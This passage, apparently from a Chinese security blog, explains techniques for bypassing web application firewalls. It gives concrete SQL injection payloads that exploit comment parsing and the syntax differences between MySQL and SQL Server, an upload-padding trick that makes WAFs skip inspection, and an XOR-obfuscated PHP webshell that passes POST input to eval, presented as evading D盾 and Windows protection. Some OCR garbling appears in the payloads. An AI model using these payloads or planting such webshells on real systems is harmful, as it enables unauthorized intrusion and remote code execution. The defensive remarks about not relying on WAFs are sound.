 ```
http://abcd.com?id=9999-"/*“ union a11 select 1,2,3,4,5 as “*/“ frommysq1. user
```

某些WAF会将9999-“/*“ union a11 select 1,2,3,4,5 as “*/“ from mysq1. user清洗为:

9999-“” from mysq1.user然后去检测是否有攻击特征,如果没有，执行原始语句:9999”/*“ union all select 1,2,3,4,5 as “*/“ from mysq1 .user

其实，对于 /*来说，它只是一个字符串

对于 */ 来说，它也是一个字符串，在这里还充当一个别名

但是对于WAF来说，它会认为这是多行注释符，把中间的内容清洗掉去进行检测，当然检测不到什么东西。

### <a name="%E4%B8%89%E3%80%81%E8%A7%84%E5%88%99%E9%80%9A%E7%94%A8%E6%80%A7%E9%97%AE%E9%A2%98%EF%BC%8C%E5%AF%BC%E8%87%B4WAF%E8%A2%AB%E7%BB%95%E8%BF%87"></a>三、规则通用性问题，导致WAF被绕过

比如对SQL注入数据进行清洗时，WAF一般不能知道后端数据库是MySQL还是SQL Server，那么对于MySQL 的 /*!50001Select*/ 来说，这是一个Select的命令，而对于SQL Server来说，这只不过是一个注释而已，注释 的内容为 !50001Select 。

尤其是对于通用性WAF，这一点相当难做，很难去处理不同数据库的特性之间的问题。

大家可以发现，很多WAF对错误的SQL语句是不拦截的。

同样的，在Mysql中 # 是注释，但是在SQL Server中 # 只是一个字符串。

那么如下语句： 9999’ and 1=(select top 1 name as # from master..sysdatabases)— 会被当作为： 9999’ and 1=(select top 1 name as 注释

其实，这里的 # 只是一个字符，充当一个别名的角色而已。

如果后端数据库是SQL Server，这样的语句是没问题的。 但是通用型WAF怎么能知道后端是SQL Server呢？



## WAF对上传的检测和处理

#### <a name="%E4%B8%80%E3%80%81%E4%B8%BA%E6%80%A7%E8%83%BD%E5%92%8C%E4%B8%9A%E5%8A%A1%E5%A6%A5%E5%8D%8F"></a>一、为性能和业务妥协

对于通用性较强的软WAF来说，不得不考虑到各种机器和系统的性能，故对于一些超大数据包、超长数据可能会跳 过不检测。

在上传数据包部分，强行添加5万个字符，有些WAF会直接不检测放行，或者，检测其中的一部分。 比如，检测最前面5w个字符有没有攻击特征，如果没有，放行。

针对这种，不能光靠WAF，我们应该在我们的WEB容器层面或应用程序层面来限定上传数据的大小。 所以，我们不能过度依赖于WAF。

[![](./img/203880/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014cb4512a26cf4b21.png)

还有很多如绕过D盾木马拦截waf的方法:

其实万变不离其踪，绕过的关键在于构建灵巧的payload

一下是我了解的一个木马绕过方法，win10的防护不会对其进行拦截

```
&lt;?php
$a = “~+d()”^”!{+{}”;
$b = ${$a}[a];
eval(“n”.$b);
?&gt;

//变量$a的值我是利用异或赋值的，$a = “~+d()”^”!{+{}”;，而字符串”~+d()”^”!{+{}”异或的结果为_POST,然后$b = ${$a}[a];与$b = $_POST[a]等价，在将其传入eval()中
```

但是单纯的一句话木马：&lt;?php eval($_REQUEST[a]);?&gt;是绝对不可能在对方电脑上正常执行的 所以我们还是要不断与时俱进的

文笔拙劣 各位见谅哦~
